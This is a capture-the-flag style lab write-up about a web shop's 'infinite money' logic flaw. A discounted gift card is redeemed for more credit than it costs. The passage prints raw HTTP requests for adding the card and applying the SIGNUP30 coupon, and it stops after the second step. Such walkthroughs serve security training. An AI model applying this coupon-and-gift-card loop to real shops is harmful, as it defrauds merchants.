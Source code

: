 ### LAB #13: Infinite money logic flaw

**Given Credentials:**
```
wiener:peter
```

**Objective:**

Exploit the logic flaw in the purchasing workflow to buy a `Lightweight l33t jacket`.

This lab contains a shopping application that has many products to sell. We can login to our account, and after that, we can send a product to our cart and buy it. We only have a `$100` credit in our account and our goal is to buy a `l33t Leather jacket` that has a price of `$1337`. In the cart, we can add a coupon code for a discount and also we can redeem a gift code also to add credit to our account.

At the bottom of the application, there is a newsletter functionality in which we can register for the app newsletter by giving him our email address. After registering for the newsletter an alert box pops up that has a discount coupon code `SIGNUP30` that gives us a `30%` discount if we add it to our cart. Going back to the products we see there is a product name `Gift Card` that is only for `$10`, We can buy it and also add a discount coupon that updates the price and now they are only for `$7`.

After checkout, they show us a gift code and they send that code to our email client. We can use that gift code from the `My account` section and after that we see our account balance is incremented to `$103` dollars because the gift code adds `$10` to our account. This is a logic flaw that we can use to increase our account balance.

Now we know we can increase our account balance but it takes the following steps to complete to increment only `$3` in our account.

1. Sending the POST request to `/cart` that adds the `Gift Card` product to our cart.

```
POST /cart HTTP/2
Host: 0a5d004803c2427380ec4445001d0055.web-security-academy.net
Cookie: session=H1WfXAaNBsJIx9F1tge9DK92Pev9DU85
Content-Length: 36
Origin: https://0a5d004803c2427380ec4445001d0055.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.5615.138 Safari/537.36

productId=2&redir=PRODUCT&quantity=1
```

2. Sending a POST request to `/cart/coupon` to add a coupon code to our cart

```
POST /cart/coupon HTTP/2
Host: 0a5d004803c2427380ec4445001d0055.web-security-academy.net
Cookie: session=H1WfXAaNBsJIx9F1tge9DK92Pev9DU85
Content-Length: 53
Origin: https://0a5d004803c2427380ec4445001d0055.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.5615.138 Safari/537.36

csrf=sZTOsS4diAXcwFKGlCsKjXxBpGf23Thq&coupon=SIGNUP30
```
